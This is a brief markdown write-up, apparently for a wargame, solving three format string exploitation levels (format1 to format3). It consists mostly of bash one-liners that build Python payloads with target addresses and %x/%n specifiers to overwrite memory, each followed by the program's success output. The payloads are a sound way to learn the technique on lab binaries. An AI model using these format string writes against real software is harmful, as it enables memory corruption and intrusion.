 # Format 1 #

```bash
 - Search for the pattern
./format1 $(python -c 'print "CCCCABCD"')%130\$x
CCCCABCD43434343

 - it works
./format1 $(python -c 'print "\x08\x04\x96\x38"[::-1] + "ABCD"')%130\$x
8ABCD8049638

 - The adresse is for target
./format1 $(python -c 'print "\x08\x04\x96\x38"[::-1] + "ABCD"')%130\$n
8ABCDyou have modified the target :)
```

# Format 2 #

```bash
echo `python -c 'print "\x08\x04\x96\xe4"[::-1] + "%44x"  +"%x"*2 + "%n"'` | ./format2
200b7fd8420bffff624
you have modified the target :)

```

# Format 3 #
Y a surement plus propre car là c'est un poil bourrin.

```bash
echo `python -c 'print "\x08\x04\x96\xf4"[::-1] + "%x"*10 + "%16930059x" + "%n"'` | ./format3
you have modified the target :)
``
